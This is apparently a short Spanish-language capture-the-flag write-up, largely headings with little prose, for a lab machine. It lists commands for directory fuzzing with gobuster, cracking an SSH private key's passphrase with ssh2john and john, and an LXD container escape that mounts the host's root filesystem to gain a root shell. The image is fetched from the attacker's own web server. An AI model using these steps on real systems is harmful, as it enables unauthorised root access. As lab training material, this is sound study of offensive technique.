


# NMAP

# WEB

Posible usuario

# Fuzzing

    gobuster dir -u http://10.10.74.161/ -w /usr/share/wordlists/dirb/common.txt

    ssh2john secretKey > pass.hash  

    

    john pass.hash

    chmod 600 secretKey

# SSH

# User Flag

# Escalada de Privilegios

Descargamos (build-alpine)[https://github.com/saghul/lxd-alpine-builder/blob/master/build-alpine]

    sudo bash build-alpine

Obtenemos un `alpine-v3.13-x86_64-20210218_0139.tar.gz`. Iniciamos un servidor en python `sudo python3 -m http.server` y pasamos el archivo

    wget 10.8.67.209:8001/alpine-v3.13-x86_64-20210218_0139.tar.gz

    lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage

    lxc image list

    lxc init alpine privesc -c security.privileged=true
    

    lxc list

    lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

    lxc start privesc

    lxc exec privesc /bin/sh

# Root Flag

    find / -type f -name "root.txt" 2>/dev/null

